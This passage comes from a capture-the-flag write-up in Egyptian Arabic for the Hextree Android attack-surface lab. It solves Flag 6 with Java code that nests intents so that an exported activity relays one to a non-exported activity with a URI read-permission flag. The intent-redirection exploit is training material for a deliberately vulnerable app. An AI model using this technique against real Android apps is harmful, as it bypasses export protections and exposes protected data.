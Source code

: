 ```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag6Activity"
    android:exported="false"/>
```

بس من الـ xml الـ activity مش exported يعني منقدرش نبعت مباشرة

يعني عايزين حاجة فيها startActivity() ونقدر نناديها عشان لما نديها intent تروح من "Activity A" ل "Activity B" ال مkقدرش نناديه مباشرة

**_Activity 5 فيه المطلوب ده_**

```java
if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
```

#### الحل

هنستخدم الحل اللي فات بس نغير الـ extra text في intent3 من `back` -> `next`، والـ class اللي بنناديه ونديله الـ permissions المطلوبة `.FLAG_GRANT_READ_URI_PERMISSION`

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag6Activity"));  
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 7

#### تحليل الكود
